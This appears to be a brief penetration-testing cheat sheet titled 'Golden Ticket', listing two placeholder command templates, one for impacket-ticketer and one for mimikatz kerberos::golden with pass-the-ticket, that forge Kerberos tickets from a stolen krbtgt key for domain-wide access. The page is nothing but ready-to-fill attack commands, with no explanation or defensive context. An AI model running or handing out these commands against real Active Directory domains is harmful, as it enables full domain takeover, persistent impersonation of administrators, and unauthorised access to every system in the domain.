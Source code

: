 # Golden Ticket

 - impacket-ticketer -aesKey KRBTGT_AES_KEY -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

 - mimikatz "kerberos::golden /user:ADMIN_USER /domain:DOMAIN /sid:DOMAIN-SID /aes256:KRBTGT_AES256 /ptt"
